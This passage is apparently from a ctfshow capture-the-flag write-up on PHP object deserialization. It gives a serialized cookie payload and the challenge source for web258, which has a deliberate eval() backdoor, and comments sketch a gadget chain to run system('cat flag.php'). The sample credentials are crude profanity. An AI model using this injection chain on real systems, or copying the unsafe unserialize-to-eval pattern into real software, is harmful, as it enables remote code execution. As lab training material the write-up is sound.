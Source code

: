 GET:

```
?username=cnm&password=fuck
```

COOKIE:

```
user=O%3A11%3A%22ctfShowUser%22%3A3%3A%7Bs%3A8%3A%22username%22%3Bs%3A3%3A%22cnm%22%3Bs%3A8%3A%22password%22%3Bs%3A4%3A%22fuck%22%3Bs%3A5%3A%22isVip%22%3Bb%3A1%3B%7D
```

## web258

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=false; // 改为true
    public $class = 'info';  

    public function __construct(){
    //把下面这里改成 new backDoor() ，方便调用destruct()方法下的getInfo()，调用的就是backDoor类下的etInfo()里的eval()
        $this->class=new info();
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function __destruct(){
        $this->class->getInfo();
    }
}

class info{
    public $user='xxxxxx';
    public function getInfo(){
        return $this->user;
    }
}

class backDoor{
    public $code;  //写入后门代码 system('cat flag.php');
    public function getInfo(){
        eval($this->code);   //终点
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    if(!preg_match('/[oc]:\d+:/i', $_COOKIE['user'])){
        $user = unserialize($_COOKIE['user']); // 起点
    }
    $user->login($username,$password);
}
```
